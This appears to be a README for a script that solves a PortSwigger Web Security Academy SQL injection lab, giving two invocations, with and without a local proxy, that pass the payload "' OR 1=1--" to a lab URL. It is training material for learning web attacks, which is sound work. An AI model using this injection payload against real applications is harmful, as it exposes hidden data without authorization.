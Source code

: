 # How to run script.py

### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "' OR 1=1--"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "' OR 1=1--" -p 127.0.0.1:8080`
